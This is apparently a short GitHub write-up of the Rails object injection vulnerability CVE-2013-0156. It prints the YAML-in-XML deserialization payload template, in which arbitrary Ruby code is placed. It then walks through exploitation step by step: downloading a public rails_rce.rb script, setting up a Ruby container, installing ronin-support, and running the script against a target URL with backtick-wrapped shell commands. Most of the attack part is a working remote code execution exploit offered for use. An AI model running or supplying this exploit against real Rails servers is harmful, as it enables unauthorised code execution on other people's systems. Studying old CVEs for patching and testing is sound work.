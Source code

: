 # CVE-2013-0156 / Rails Object Injection

This vulnerability is caused by an arbitrary deserialization that can be used to trigger SQL injection and even Code execution.

### Exploit theory

```xml
<?xml version="1.0" encoding="UTF-8"?>
<exploit type="yaml">--- !ruby/hash:ActionController::Routing::RouteSet::NamedRouteCollection
? |
  foo
  (RUBY; @executed = true) unless @executed
  __END__
: !ruby/struct
  defaults:
    :action: create
    :controller: foos
  required_parts: []
  requirements:
    :action: create
    :controller: foos
  segment_keys:
    - :format</exploit>
```

Where **RUBY** is some arbitrary Ruby code.

By default, Rails doesn't support pure yaml in a request body. But it  supports XML that can embeds YAML in it (this explains the first two  lines of the payload). Finally, the `@executed` is used to ensure that the code is only run once.

### Exploiting

download this file: [rails_rce.rb](https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)

then run docker for ruby environment: 

```bash
docker run -it ruby:2 /bin/bash
```

now install dependencies in this docker container:

```bash
gem install ronin-support
```

Now run command:

```bash
ruby rails_rce.rb URL '`uname`'
```

NOTE: **only use single inverted commas to run ruby code inside it and use backtics to run bash commands inside it** 